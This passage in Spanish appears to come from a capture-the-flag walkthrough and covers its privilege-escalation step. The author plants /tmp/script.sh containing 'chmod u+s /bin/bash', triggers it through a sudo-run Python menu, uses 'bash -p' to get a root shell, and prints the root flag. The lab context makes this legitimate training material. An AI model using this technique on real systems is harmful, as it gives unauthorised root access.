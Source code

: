 Vemos que llama a un archivo llamado `script.sh` en la carpeta de `/tmp` y lo ejecuta como `sudo`, pero si vamos a `tmp` no veremos dicho archivo, lo crearemos poniendo lo siguiente para ser `root`.

```shell
nano /tmp/script.sh

#Dentro del nano
#!/bin/bash
chmod u+s /bin/bash
```

```shell
chmod +x /tmp/script.sh
```

Y ahora ejecutamos el script `sistem.py` y seleccionamos el numero 3, ya que es el que ejecuta ese `script.sh`.

```shell
python3 sistem.py
```

Info:

```
[MENU] Elija una opción:
  1. Mostrar información del sistema
  2. Realizar tarea
  3. Ejecutar módulo subthreads
  4. Salir
  Opción: 3
[MENU] Elija una opción:
  1. Mostrar información del sistema
  2. Realizar tarea
  3. Ejecutar módulo subthreads
  4. Salir
  Opción: 4
Saliendo...
```

Una vez hecho eso si vemos que permisos tiene la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31 10:41 /bin/bash
```

Vemos que tiene los permisos de `SUID` por lo que haremos lo siguiente.

```shell
bash -p
```

Y con esto ya seremos `root`, por lo que leeremos la flag.

> root.txt

```
2d264e1f92a8230d442750d69fba4cc5
```

